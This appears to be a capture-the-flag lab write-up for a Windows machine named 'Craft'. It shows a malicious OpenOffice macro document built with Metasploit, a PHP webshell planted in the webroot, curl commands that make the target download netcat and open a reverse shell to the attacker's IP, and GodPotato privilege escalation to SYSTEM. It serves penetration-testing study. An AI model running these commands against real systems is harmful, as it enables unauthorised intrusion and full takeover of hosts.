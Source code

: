 # Craft

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.197.169
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 23:30 +08
Nmap scan report for 192.168.197.169
Host is up (0.18s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http
```

### OpenOffice Macros -> Shell

The HTTP site was a Lorem Ipsum website:

<figure><img src="../../../.gitbook/assets/image (1837).png" alt=""><figcaption></figcaption></figure>

If we scroll down, we can see that there is a file upload for our 'resume'.

<figure><img src="../../../.gitbook/assets/image (3098).png" alt=""><figcaption></figcaption></figure>

I tried to upload an image, and this triggered an error:

<figure><img src="../../../.gitbook/assets/image (686).png" alt=""><figcaption></figcaption></figure>

An ODT file is similar to a Microsoft Word document, which can be created using `libreoffice`. Seeing that we can only upload ODT files, this machine might have a script opening the files and being able to trigger some macros embedded within the file.&#x20;

We can use `msfconsole` to generate this file:

```
msf6 exploit(multi/misc/openoffice_document_macro) > set LHOST tun0
LHOST => 192.168.45.197
msf6 exploit(multi/misc/openoffice_document_macro) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/misc/openoffice_document_macro) > 
[*] Started reverse TCP handler on 192.168.45.197:4444 
[*] Using URL: http://192.168.45.197:8080/HugvG5t95RCfjWq
[*] Server started.
[*] Generating our odt file for Apache OpenOffice on Windows (PSH)...
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Basic
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Basic/Standard
[*] Packaging file: Basic/Standard/Module1.xml
[*] Packaging file: Basic/Standard/script-lb.xml
[*] Packaging file: Basic/script-lc.xml
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Configurations2
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Configurations2/accelerator
[*] Packaging file: Configurations2/accelerator/current.xml
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/META-INF
[*] Packaging file: META-INF/manifest.xml
[*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Thumbnails
[*] Packaging file: Thumbnails/thumbnail.png
[*] Packaging file: content.xml
[*] Packaging file: manifest.rdf
[*] Packaging file: meta.xml
[*] Packaging file: mimetype
[*] Packaging file: settings.xml
[*] Packaging file: styles.xml
[+] msf.odt stored at /home/kali/.msf4/local/msf.odt
```

Afterwards, we can upload this file to the machine and wait for the script to open it:

```
[*] 192.168.197.169  openoffice_document_macro - Sending payload
[*] Command shell session 1 opened (192.168.45.197:5555 -> 192.168.197.169:49737) at 2023-07-05 23:39:11 +0800
msf6 exploit(multi/misc/openoffice_document_macro) > sessions

Active sessions
===============

  Id  Name  Type               Information                    Connection
  --  ----  ----               -----------                    ----------
  1         shell x64/windows  Shell Banner: Microsoft Windo  192.168.45.197:5555 -> 192.16
                               ws [Version 10.0.17763.2029]   8.197.169:49737 (192.168.197.
                               -----                          169)

```

Resume this sesison to drop into our shell:

<figure><img src="../../../.gitbook/assets/image (955).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Apache User Shell

When checking the users present, we can see that there's an `apache` user:

```
 Directory of C:\Users

07/13/2021  03:35 AM    <DIR>          .
07/13/2021  03:35 AM    <DIR>          ..
05/28/2021  03:53 AM    <DIR>          Administrator
02/17/2023  03:36 PM    <DIR>          apache
05/28/2021  03:53 AM    <DIR>          Public
02/17/2023  03:36 PM    <DIR>          thecybergeek
```

The next step might be to get a shell as this user. Since there's a website being hosted on the machine, we can start there. I found that we can write to the webroot folder:

```
 Directory of C:\xampp\htdocs

07/13/2021  03:18 AM    <DIR>          .
07/13/2021  03:18 AM    <DIR>          ..
07/13/2021  03:18 AM    <DIR>          assets
07/13/2021  03:18 AM    <DIR>          css
07/07/2021  10:53 AM             9,635 index.php
07/13/2021  03:18 AM    <DIR>          js
07/07/2021  09:56 AM               835 upload.php
07/05/2023  08:38 AM    <DIR>          uploads
               2 File(s)         10,470 bytes
               6 Dir(s)  10,492,981,248 bytes free

C:\xampp\htdocs>echo hello > hello.txt
echo hello > hello.txt
```

As such, we can drop a `cmd.php` webshell within this file and verify that we have RCE as `apache`:

```
$ curl http://192.168.197.169/cmd.php?cmd=whoami
craft\apache
```

We can then download `nc64.exe` onto the machine and get a shell as `apache`:

{% code overflow="wrap" %}
```
$ curl -G --data-urlencode 'cmd=powershell -c wget 192.168.45.197/nc64.exe -Outfile C:/Windows/Tasks/nc.exe' http://192.168.197.169/cmd.php

$ curl -G --data-urlencode 'cmd=C:/Windows/Tasks/nc.exe -e cmd.exe 192.168.45.197 21' http://192.168.197.169/cmd.php
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (3938).png" alt=""><figcaption></figcaption></figure>

### SeImpersonatePrivilege

This user has the `SeImpersonatePrivilege` enabled:

```
C:\xampp\htdocs>whoami /priv 
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeTcbPrivilege                Act as part of the operating system       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

We can use `godpotato.exe` to exploit this:

{% code overflow="wrap" %}
```
C:\Windows\Tasks>.\godpotato.exe -cmd "cmd /c C:\Windows\Tasks\nc.exe -e cmd.exe 192.168.45.197 21"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (2055).png" alt=""><figcaption></figcaption></figure>

Rooted!
